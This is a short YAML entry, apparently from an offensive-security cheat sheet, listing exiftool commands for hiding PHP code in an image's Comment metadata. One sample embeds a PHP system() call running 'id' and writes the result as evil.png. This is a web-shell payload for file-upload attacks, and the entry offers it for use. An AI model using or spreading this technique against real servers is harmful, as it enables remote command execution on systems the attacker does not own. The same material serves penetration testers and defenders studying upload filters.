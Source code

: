 ```yaml
---
layout: post
title: "Exiftool"
tags: ["exiftool","metadata"]
os: ["Linux"]  
code:
  - title: Embebed PHP code into image file
    sample: exiftool -Comment='[PHP_CODE]' image.jpg -o outputimage.png
  
  - title: Run id linux command
    sample: exiftool -Comment="&lt;?php system("id"); ?&gt;" kali.png -o evil.png
---
```



